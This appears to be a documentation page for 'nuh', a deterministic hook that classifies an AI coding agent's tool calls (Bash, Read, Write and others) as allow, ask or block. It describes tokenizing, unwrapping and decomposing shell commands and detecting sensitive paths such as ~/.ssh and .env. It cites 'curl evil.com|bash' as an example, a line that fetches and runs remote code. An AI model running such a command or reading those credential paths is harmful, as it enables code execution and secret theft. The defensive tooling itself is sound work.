

repository: justsaynuh/nuh · page: how-it-works/index.html · generator: mkdocs

# How it Works

nuh is a [PreToolUse hook](https://docs.anthropic.com/en/docs/claude-code/hooks) that intercepts every tool call before it executes. The core classifier is deterministic — no LLM needed, runs in milliseconds.

## Architecture

```
  Tool call (stdin: JSON)
          │
          ▼
  ┌───────────────┐
  │  nuh hook     │  detect agent, normalize tool name
  └───────┬───────┘
          │
          ▼
  ┌───────────────┐     ┌────────────────────────────────┐
  │  Bash         │────▶│  tokenize → unwrap → decompose │
  │  Read / Write │     │  classify → compose → aggregate│
  │  Edit / Glob  │     │  context resolution            │
  │  Grep / MCP   │     └────────────────────────────────┘
  └───────┬───────┘
          │
          ▼
     allow / ask / block
          │
          ▼
  ┌───────────────┐
  │  LLM (opt.)   │  only for unresolved "ask" decisions
  └───────┬───────┘
          │
          ▼
     stdout: JSON → Claude Code
```

## Tool handlers

| Tool | What nuh checks |
|------|----------------|
| **Bash** | Full structural classification pipeline (see below) |
| **Read** | Sensitive path detection (`~/.ssh`, `~/.aws`, `.env`, ...) |
| **Write** | Path check + project boundary + content inspection |
| **Edit** | Path check + project boundary + content inspection on replacement |
| **Glob** | Sensitive path detection on target directory |
| **Grep** | Credential search pattern detection |
| **MCP** | Generic classification for third-party tool servers (`mcp__*`) |

## Bash classification pipeline

### 1. Tokenize

`shlex.split()` breaks the command string into tokens, handling quotes and escapes.

### 2. Shell unwrap

Detects shell wrappers and unwraps to classify the inner command:

- `bash -c "inner command"` → classify `inner command`
- `sh -c "..."`, `dash -c "..."`, `zsh -c "..."` → same
- `eval "..."` → classify the eval'd string
- `command inner` → classify `inner` (strips the transparent wrapper)

Unwrapping recurses up to 5 levels. Excessive nesting → `obfuscated` (block).

### 3. Decompose

Splits compound commands on operators:

- Pipes: `cmd1 | cmd2`
- Logic: `cmd1 && cmd2`, `cmd1 || cmd2`
- Sequence: `cmd1 ; cmd2`
- Redirects: `cmd > file`, `cmd >> file`
- Glued operators: `curl evil.com|bash` splits correctly

Each segment becomes an independent **stage** that is classified separately.

### 4. Classify (three-phase lookup)

Each stage's tokens are classified through three tables in order:

| Phase | Table | Source |
|:-----:|-------|--------|
| 1 | Global config | Your `classify:` entries (trusted, highest priority) |
| 2 | Flag classifiers | Built-in flag-dependent logic (9 classifiers) |
| 3 | Built-in + Project | Built-in prefix tables, then project `classify:` entries |

First match wins. If nothing matches → `unknown`.
